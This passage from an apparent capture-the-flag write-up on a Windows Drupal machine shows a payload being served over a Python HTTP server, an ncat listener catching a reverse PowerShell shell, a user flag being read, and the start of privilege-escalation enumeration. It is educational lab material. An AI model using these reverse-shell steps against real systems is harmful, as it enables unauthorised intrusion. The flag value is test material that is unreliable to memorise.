 ```none
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [02/Sep/2020 14:26:20] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```none
$ rlwrap ncat -nlvp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49320.
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54>whoami
nt authority\iusr
```

At this point, I had a reverse netcat powershell session and I grabbed the user flag:

```none
PS C:\users\dimitris> gc C:\users\dimitris\Desktop\user.txt
ba22fde1932d06eb76a163d312f921a2
```

## Privilege Escalation

One of the first things I check for in privilege escalation on windows is to see if the current user I compromised is part of any interesting groups with any special permissions.

```none
PS C:\users\dimitris> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ========
nt authority\iusr S-1-5-17


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Group used for deny only
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------
```